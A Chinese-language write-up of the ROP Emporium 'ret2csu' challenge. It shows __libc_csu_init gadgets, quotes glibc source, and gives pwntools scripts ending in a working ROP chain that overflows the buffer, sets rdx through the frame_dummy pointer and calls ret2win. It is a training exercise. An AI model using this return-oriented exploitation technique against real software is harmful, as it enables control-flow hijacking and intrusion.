via：https://ropemporium.com/challenge/ret2csu.html

# ret2csu

We're back in ret2win territory, but this time without the useful gadgets. How will we populate the rdx register without a pop rdx?
Click below to download the binary.

[64bit](https://ropemporium.com/binary/ret2csu.zip)

## Same same, but different

The challenge is simple: call the **ret2win()** function, the caveat this time is that the third argument (which you know by now is stored in the rdx register on x86_64 Linux) must be 0xdeadcafebabebeef. Populating this elusive register using ROP can prove more difficult than you might first think, especially in smaller binaries with fewer gadgets. This can become particularly irksome since many useful GLIBC functions require three arguments.

### So little room for activities

Start by using ropper to search for sensible gadgets, if there's no pop rdx perhaps there's a mov rdx, rbp that you could chain with a pop rbp. You might consider avoiding the issue entirely by returning to the fgets() code within the pwnme() function but this may prove to be difficult since the .got.plt entries of fgets() and some other functions have been tampered. If you're all out of ideas go ahead and read the last section.

### Universal

Fortunately some very smart people have come up with a solution to your problem and as is customary in infosec given it a collection of pretentious names, including "Universal ROP", "μROP", "return-to-csu" or just "ret2csu". You can learn all you need to on the subject from these [BlackHat Asia slides](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf). Note that more recent versions of gcc may use different registers from the example in __libc_csu_init(), including the version that compiled this challenge.

所谓的 ret2csu 就是跳到  `__libc_csu_init()`  执行，其实就是一个在编译的时候加进来的函数



```asm
                    LAB_00400880                      XREF[1]: 00400894(j)  
   00400880 4c 89 fa   MOV     RDX,R15
   00400883 4c 89 f6   MOV     RSI,R14
   00400886 44 89 ef   MOV     EDI,R13D
   00400889 41 ff      CALL    qword ptr [R12 + RBX*0x8]=>->fra  undefined frame_dummy()
            14 dc                                                = 4006D0h
                                                                 = 4006A0h
                                                                 undefined __do_global_
   0040088d 48 83      ADD     RBX,0x1
            c3 01
   00400891 48 39 dd   CMP     RBP,RBX
   00400894 75 ea      JNZ     LAB_00400880
                    LAB_00400896                      XREF[1]: 00400874(j)  
   00400896 48 83      ADD     RSP,0x8
            c4 08
   0040089a 5b         POP     RBX
   0040089b 5d         POP     RBP
   0040089c 41 5c      POP     R12
   0040089e 41 5d      POP     R13
   004008a0 41 5e      POP     R14
   004008a2 41 5f      POP     R15
   004008a4 c3         RET
```

可控 rbx，rbp，r12，r13，r14，r15

然后 `r15` 可以设置 `rdx`，`r14` 可以设置 `rsi`，`r13` 可以设置 `edi`

看官方的描述其实就是想让我们把 `rdx` 设置成 `0xdeadcafebabebeef` 然后调用 `ret2win`

 现在 gadget 有了试一下写 payload：

```python
from pwn import *

ret2csu = ELF("./ret2csu")
p = process("./ret2csu")

ret2win = ret2csu.symbols["ret2win"]

pop_rbx_rbp_r12_r13_r14_r15_ret = 0x0040089a
mov_rdx_r15_mov_rsi_r14_mov_edi_r13D_call_r12_rbx = 0x00400880

exp = "A" * 0x28
exp += p64(pop_rbx_rbp_r12_r13_r14_r15_ret)
exp += p64(0) #rbx
exp += p64(0) #rbp
exp += p64(ret2win) #r12
exp += p64(1) #r13
exp += p64(1) #r14
exp += p64(0xdeadcafebabebeef) #r15

exp += p64(mov_rdx_r15_mov_rsi_r14_mov_edi_r13D_call_r12_rbx)

gdb.attach(pidof(p)[0])
p.sendline(exp)
p.interactive()
```

失败

仔细理了理，发现还有一个地方错了

```asm
   00400889 41 ff      CALL    qword ptr [R12 + RBX*0x8]=>->fra  undefined frame_dummy()
```

当时没仔细看，我以为 r12 放 ret2win 的地址，rbx 置 0 就能 call ret2win

其实这个是要解引用的，把真正的函数地址放进去肯定是不能解引用出函数地址的，然后就是，想着什么地方的地址解引用后能得到一个函数的地址，一开始想到的是 got 表，随便找一个 libc 库函数，绕过 `CALL    qword ptr [R12 + RBX*0x8]` 和 `ADD     RBX,0x1 ` ` CMP     RBP,RBX` 一直到 ret 才把 ret2win 的地址放到栈上去，这个过程一定要保证，rbx 的值不会被修改，不然不能成功调用 ret2win 

绕过  `CALL    qword ptr [R12 + RBX*0x8] ` 我把 r12 放 puts 的 got 然后 rbx 放 0

这样就能绕过了，然后 把 rbp 置 1 就能绕过 `ADD     RBX,0x1 ` ` CMP     RBP,RBX` 

payload：

```python
from pwn import *

ret2csu = ELF("./ret2csu")
p = process("./ret2csu")

ret2win = ret2csu.symbols["ret2win"]

fgets_got = ret2csu.got["fgets"]
add_rsp_8_pop_rbx_rbp_r12_r13_r14_r15_ret = 0x00400896
mov_rdx_r15_mov_rsi_r14_mov_edi_r13D_call_r12_rbx = 0x00400880

exp = "A" * 0x28
exp += p64(add_rsp_8_pop_rbx_rbp_r12_r13_r14_r15_ret)
exp += p64(0) # padding (add rsp,8)
exp += p64(0) # rbx
exp += p64(1) # rbp
exp += p64(fgets_got) # r12
exp += p64(1) # r13
exp += p64(1) # r14
exp += p64(0xdeadcafebabebeef) # r15

exp += p64(mov_rdx_r15_mov_rsi_r14_mov_edi_r13D_call_r12_rbx)
exp += p64(0)
exp += p64(0) #rbx
exp += p64(0) #rbp
exp += p64(0) #r12
exp += p64(0) #r13
exp += p64(0) #r14
exp += p64(0) #r15
exp += p64(ret2win)

gdb.attach(pidof(p)[0])
p.sendline(exp)
p.interactive()
```

不应该啊，参数对了，地址对了，为什么最后却是跳到 0 去了



想到官方的话：

 You might consider avoiding the issue entirely by returning to the fgets() code within the pwnme() function but this may prove to be difficult since the .got.plt entries of fgets() and some other functions have been tampered. If you're all out of ideas go ahead and read the last section.

一看







我***

把 got 表上 puts , printf， memset， fgets 表项全置 0 

？？？？？？？？？？？？？？？？？？？？？？

剩下一个 `setvbuf`

试一试

能调用



但是这个函数会改变 edx 的值，在调用 ret2win 的时候会失败

如果很了解 elf 的格式的话，直接就知道



`.init_array` 段在 glibc 里面是怎么处理的

via：https://code.woboq.org/userspace/glibc/csu/elf-init.c.html

```c
/* Startup support for ELF initializers/finalizers in the main executable.
   Copyright (C) 2002-2019 Free Software Foundation, Inc.
   This file is part of the GNU C Library.
   The GNU C Library is free software; you can redistribute it and/or
   modify it under the terms of the GNU Lesser General Public
   License as published by the Free Software Foundation; either
   version 2.1 of the License, or (at your option) any later version.
   In addition to the permissions in the GNU Lesser General Public
   License, the Free Software Foundation gives you unlimited
   permission to link the compiled version of this file with other
   programs, and to distribute those programs without any restriction
   coming from the use of this file. (The GNU Lesser General Public
   License restrictions do apply in other respects; for example, they
   cover modification of the file, and distribution when not linked
   into another program.)
   Note that people who make modified versions of this file are not
   obligated to grant this special exception for their modified
   versions; it is their choice whether to do so. The GNU Lesser
   General Public License gives permission to release a modified
   version without this exception; this exception also makes it
   possible to release a modified version which carries forward this
   exception.
   The GNU C Library is distributed in the hope that it will be useful,
   but WITHOUT ANY WARRANTY; without even the implied warranty of
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the GNU
   Lesser General Public License for more details.
   You should have received a copy of the GNU Lesser General Public
   License along with the GNU C Library; if not, see
   <http://www.gnu.org/licenses/>.  */
#include <stddef.h>
/* These magic symbols are provided by the linker.  */
extern void (*__preinit_array_start []) (int, char **, char **)
  attribute_hidden;
extern void (*__preinit_array_end []) (int, char **, char **)
  attribute_hidden;
extern void (*__init_array_start []) (int, char **, char **)
  attribute_hidden;
extern void (*__init_array_end []) (int, char **, char **)
  attribute_hidden;
extern void (*__fini_array_start []) (void) attribute_hidden;
extern void (*__fini_array_end []) (void) attribute_hidden;
#ifndef NO_INITFINI
/* These function symbols are provided for the .init/.fini section entry
   points automagically by the linker.  */
extern void _init (void);
extern void _fini (void);
#endif
/* These functions are passed to __libc_start_main by the startup code.
   These get statically linked into each program.  For dynamically linked
   programs, this module will come from libc_nonshared.a and differs from
   the libc.a module in that it doesn't call the preinit array.  */
void
__libc_csu_init (int argc, char **argv, char **envp)
{
  /* For dynamically linked executables the preinit array is executed by
     the dynamic linker (before initializing any shared object).  */
#ifndef LIBC_NONSHARED
  /* For static executables, preinit happens right before init.  */
  {
    const size_t size = __preinit_array_end - __preinit_array_start;
    size_t i;
    for (i = 0; i < size; i++)
      (*__preinit_array_start [i]) (argc, argv, envp);
  }
#endif
#ifndef NO_INITFINI
  _init ();
#endif
  const size_t size = __init_array_end - __init_array_start;
  for (size_t i = 0; i < size; i++)
      (*__init_array_start [i]) (argc, argv, envp);
}
/* This function should not be used anymore.  We run the executable's
   destructor now just like any other.  We cannot remove the function,
   though.  */
void
__libc_csu_fini (void)
{
#ifndef LIBC_NONSHARED
  size_t i = __fini_array_end - __fini_array_start;
  while (i-- > 0)
    (*__fini_array_start [i]) ();
# ifndef NO_INITFINI
  _fini ();
# endif
#endif
}
```

看到了吗，`__libc_csu_fini` , `__libc_csu_init` 的源码

不深究，自己看源码吧



发现有一个 函数指针

地址：`0x00600e10` 

解引用后：   `0x4006d0` 

调用 `frame_dummy` 函数，试试看

```python
from pwn import *

ret2csu = ELF("./ret2csu")
p = process("./ret2csu")

ret2win = ret2csu.symbols["ret2win"]
frame_dummy_ptr = 0x00600e10
add_rsp_8_pop_rbx_rbp_r12_r13_r14_r15_ret = 0x00400896
mov_rdx_r15_mov_rsi_r14_mov_edi_r13D_call_r12_rbx = 0x00400880

exp = "A" * 0x28
exp += p64(add_rsp_8_pop_rbx_rbp_r12_r13_r14_r15_ret)
exp += p64(0)
exp += p64(0) #rbx
exp += p64(1) #rbp
exp += p64(frame_dummy_ptr) #r12
exp += p64(1) #r13
exp += p64(1) #r14
exp += p64(0xdeadcafebabebeef) #r15

exp += p64(mov_rdx_r15_mov_rsi_r14_mov_edi_r13D_call_r12_rbx)
exp += p64(0)
exp += p64(0) #rbx
exp += p64(0) #rbp
exp += p64(0) #r12
exp += p64(0) #r13
exp += p64(0) #r14
exp += p64(0) #r15
exp += p64(ret2win)

# gdb.attach(pidof(p)[0])
p.sendline(exp)
p.interactive()
```

pwn!



gdb 调试：





看，`frame_dummy` 调用过程中没有改变过 `rdx` 的值

call 完后，rdx 还是 0xdeadcafebabebeef



走完就能调用 `ret2win` 了

ropemporium pwned!

that's over!

